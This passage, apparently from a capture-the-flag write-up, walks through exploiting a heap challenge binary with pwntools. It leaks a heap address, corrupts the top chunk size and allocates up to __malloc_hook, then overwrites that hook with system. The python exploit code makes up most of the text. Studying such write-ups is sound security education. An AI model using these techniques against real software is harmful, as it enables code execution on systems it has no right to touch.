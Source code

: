 ```python
p.recvuntil(b'>> ')  
p.sendline(b'5')  
p.recvuntil(b'>> ')  
p.sendline(b'3')  
p.recvuntil(b'Class: ')  
  
heap = p.recvline()[:-1]  
heap = int.from_bytes(heap, 'little') - 4800 - 0x10
```

### Step 4: 
Now it's time to start the heap exploitation process. To make matters simpler, we can write a wrapper around the craft sword program interaction. 
```python
def malloc(size, data):  
  p.recvuntil(b'>> ')  
  p.sendline(b'1')  
  p.recvuntil(b'>> ')  
  p.sendline(str(size))  
  p.recvuntil(b'>> ')  
  p.sendline(data)
```

Now we need to corrupt the top chunk size. We can do this programmatically the same way we did manually earlier:

```python
malloc(40, b'\x41'*47)
```

Next, we want to malloc all the way up to just before `__malloc_hook`. We can do so by doing the following: 
`__malloc_hook address - (heap base + already allocated space) - 0x10`. Looking at the current state of our heap at this point in the exploit, we see the following:

![heap mid exploit](heap_mid_exploit.png)

Adding all the allocated sizes together, we get `0x250 + 0x1010 + 0x30 + 0x30 + 0x30 + 0x30 = 0x1320`. We also need to add an additional `0x10` since we are using the heap base, which is `0x10` before the first chunk on the heap. Therefore we have the following code:

```python
distance = libc.sym.__malloc_hook - (heap + 0x1330) - 0x10  
malloc(distance, 'dummy')
```

Note that we subtract `0x10` so that we get a pointer just before `__malloc_hook`. Therefore, on the next call to malloc, the allocator will return a pointer to `__malloc_hook`.

### Step 5: 
Almost there, we need to call malloc another time. The data we include in this call will overwrite the `__malloc_hook`. Therefore, we use the following code:
```python
malloc(24, p64(libc.sym.system))
```
